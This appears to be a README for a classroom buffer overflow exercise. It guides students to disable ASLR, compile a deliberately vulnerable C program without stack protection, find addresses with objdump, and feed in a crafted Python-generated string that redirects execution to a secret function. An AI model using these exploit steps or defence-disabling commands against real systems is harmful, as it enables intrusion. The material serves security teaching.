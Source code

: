 Source code from https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/

Modifications made for a 64-bit system, because that's probably what you have. 

*******

## Background
Here's a decently detailed Computerphile video about buffer overflow attacks. Our exploit is a good bit simpler than the one he's doing in this video--the only thing that we care about is overwriting the return address so that it points to a different function in the program. The video goes over nop sleds and how to inject your own code, which is beyond the scope of this exercise in particular, but if you'd like to take this exercise further and figure out how to run an exploit of that sort, you're definitely welcome to. https://www.youtube.com/watch?v=1S0aBV-Waeo

*******

## Running the exploit

Run `sudo sysctl kernel.randomize_va_space=0` in your terminal, which will temporarily turn stack randomization off for just this session. 

Open the `vuln.c` file. What does it do? How would you get to the secret function? 

Run the command `gcc vuln.c -o vuln -fno-stack-protector -g -z execstack`. This compiles the `vuln.c` program into an executable `vuln` program. `-fno-stack-protector` turns off all the things that a good compiler should do to prevent you from doing this exploit. `-g` allows you to open the executable in a debugger. (Since a Makefile is provided, you can also just run `make` since that's shorter to type, but this is the command that's actually getting run.) 

Try out the program. Run `./vuln` and give it some text so you can see how the program's expected to work. 

Run `objdump -d vuln > myVulnDump`, which allows you to look through the machine instructions for the executable. Note that you can get this objdump without the original C source file. You can now open myVulnDump with `nano` or some other text editor. 
<br>
<details>
  <summary>It's not working!</summary>
  If you really can't get the objdump to work, I've provided it as `dumpfile`.
</details>
<br>
In the dumpfile, locate the address in main where the echo function should return to when it's finished. This is the address that will get pushed to the stack, and then the program will expect it to be there later. Except we're going to overwrite it to a different address. 
<br>
<details> 
  <summary>The return address should be... </summary>
  0x400640
</details>
<br>
Also in the dumpfile, locate the address of the secret function. This is what we'll be overwriting the last address with. 
<br>
<details> 
  <summary>The address of secretFunction should be... </summary>
  0x4005d6
</details>
<br>
Construct a hex string that will overflow the buffer with a set number of random characters followed by the return address of the secret function. I used Python: `python -c 'print "a"*40 + "\xd6\x05\x40"' > myBadString`. (If you discovered that yours has a different return address, use that one instead.) If you're curious, you can use hexdump to figure out what got put into the myBadString file: `hexdump myBadString`
<br>
<details>
  <summary>It's not working!</summary>
  Because of how different machines' endianness works, the bytes of the string are reversed for mine; if this doesn't work, try substituting `\x40\x05\xd6`.
</details>
<br>
Now run the `vuln` program with the string you put into `myBadString`: `./vuln < myBadString`. 

And that's it! 

![I'm in.](in.gif)
https://media.giphy.com/media/xUOxf0mVWDzAX9HkOY/giphy.gif
